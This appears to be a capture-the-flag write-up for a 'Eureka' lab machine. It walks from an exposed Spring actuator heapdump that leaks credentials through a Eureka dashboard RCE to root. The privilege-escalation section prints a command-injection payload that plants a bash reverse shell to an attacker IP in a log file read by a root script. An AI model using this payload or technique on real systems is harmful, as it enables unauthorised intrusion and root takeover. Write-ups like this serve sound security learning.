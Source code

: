 # 🎣Eureka

## 🧠Summary
> Initial Nmap scan showed ports 22 (SSH) and 80 (HTTP) open. The website hosted a furniture shop. During enumeration, a suspicious /heapdump endpoint was discovered and downloaded. Extracting strings revealed credentials, which successfully worked for SSH login. Deeper exploration of the file system led to a sensitive config file containing Eureka dashboard credentials. Accessing port 8761 exposed a Spring Eureka admin panel. Using a crafted curl + nc payload inspired by a known Eureka RCE technique, a shell was obtained with a second user. Further privilege escalation was achieved by exploiting a log analyzer script, injecting a reverse shell payload into application.log. Root shell and flag were finally obtained.

## ↘️ASCII Visual
```text
[ Nmap ] → 80, 22  
      |  
      v  
[ Port 80 - Furniture site ]  
      |  
  dirsearch → /heapdump  
      |  
download + strings → creds  
      |  
      v  
[ SSH Access (user1) ]  
      |  
  explore → /var/www/web/Eureka-Sever/…/application.yaml  
      |  
  → creds for port 8761 (Eureka Dashboard)  
      |  
      v  
POST RCE payload (curl + nc)  
      |  
Decode dumped creds (CyberChef)  
      |  
[ SSH Miranda-Wise ] → user.txt  
      |  
      v  
Privilege Escalation → log_analyse.sh  
inject revshell into application.log  
      |  
[ listener ] ← root shell → root.txt
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  ![](./screenshots/nmap_scan.png)
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Used dirsearch to find interesting endpoint
- Found an endpoint called actuator/heapdump
  ![](./screenshots/endpoint.png)
- Went to the endpoint to download a binary file
- Used strings command and found username and password

## 📌Loop hole
- SSH into the machine using the obtained creds
- Explored the machine and found a interesting file called application.yaml
  ![](./screenshots/application.png)
- Found an open port also in the found file entered the website using the open port and found a webpage called spring eureka
  ![](./screenshots/port8761-webpage.png)
- Found a medium post that talks about eureka RCE 👉 [Eureka-RCE](https://medium.com/@mfocuz/hacking-netflix-eureka-8e5957b2f539)
- After that wrote a custom script to in bash using (nc + curl)
  ![](./screenshots/exploit.png)
- The link to custom script 👉 [exploit.sh](./exploit.sh)
- I got the password and username the password was encrypted so used cyberchef to decode it and found the password
  ![](./screenshots/decrypt.png)
- SSH into the machine as new user and got the user flag

## 🧪Exploitation
- Used all the known prevelage escalation commands and found nothing useful so manually checked the files and found an interesting file called log_analyse.sh
- Cat the file to find that the file reads and execute the content in the file path /var/www/web/user-management-service/log/application.log
- So wrote a reverse script to opened a listner in my system
  ```bash
  echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.16.31/4444 0>&1)]' > /var/www/web/user-management-service/log/application.log
  ```
  > (Note:First delete th content in the file and then use the above command)
- Got the reverse shell as root and dumped the root flag 🚩
